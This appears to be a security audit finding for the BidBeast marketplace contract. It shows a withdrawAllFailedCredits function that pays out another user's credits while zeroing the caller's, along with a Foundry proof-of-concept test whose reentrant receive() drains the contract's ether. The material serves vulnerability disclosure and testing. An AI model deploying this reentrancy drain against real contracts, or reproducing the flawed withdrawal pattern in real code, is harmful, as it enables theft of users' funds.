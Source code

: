 ### Summary
`BidBeast_NFT_ERC721.sol::withdrawAllFailedCredits()` uses the amount of `_receiver` and sets the failedTransferCredits of `msg.sender` to 0. This allows a user to keep withdrawing another user's credit causing reentrancy attack and to drain the funds in this marketplace contract.

### Vulnerability Details
```
function withdrawAllFailedCredits(address _receiver) external {
    uint256 amount = failedTransferCredits[_receiver];
    require(amount > 0, "No credits to withdraw");
    
    failedTransferCredits[msg.sender] = 0;
    
    (bool success, ) = payable(msg.sender).call{value: amount}("");
    require(success, "Withdraw failed");
}
```

### Impact/Proof of Concept
Add this helper function in `BidBeastsNFTMarketPlace.sol` to simulate a user having failed credits
```
// Helper functions //
function addFailedCredits(address user, uint256 amount) external {
    failedTransferCredits[user] += amount;
}
```

Add this to test contract
```
function test_withdrawAllFailedCreditAllowsUserToDrainFunds() public {
    // Simulate funds inside contract
    vm.deal(address(market), 5 ether);
    vm.assertEq(address(market).balance, 5 ether, "Market balance should be 5 ether");

    // Create helper function to simulate BIDDER_1 with failed credits
    market.addFailedCredits(BIDDER_1, 1 ether);
    
    uint256 thisBalanceBefore = address(this).balance;
    // Before balances
    console.log('market before: ', address(market).balance/1e18);
    console.log('this before: ', thisBalanceBefore/1e18);

    // Assume this contract's role and withdraw BIDDER_1 credits, draining the marketplace contract funds
    vm.startPrank(address(this));
    market.withdrawAllFailedCredits(BIDDER_1);
    vm.stopPrank();
    vm.assertEq(address(market).balance, 0, "Market balance should have 0 funds");
    vm.assertEq(address(this).balance, thisBalanceBefore + 5 ether, "This should have 5 ether");

    // After balances
    console.log('market after: ', address(market).balance/1e18);
    console.log('this after: ', address(this).balance/1e18);
}

receive() external payable {
    // Reentrancy attack
    if(address(market).balance/1e18 > 0){
        vm.startPrank(address(this));
        market.withdrawAllFailedCredits(BIDDER_1);
        vm.stopPrank();
    }
}
```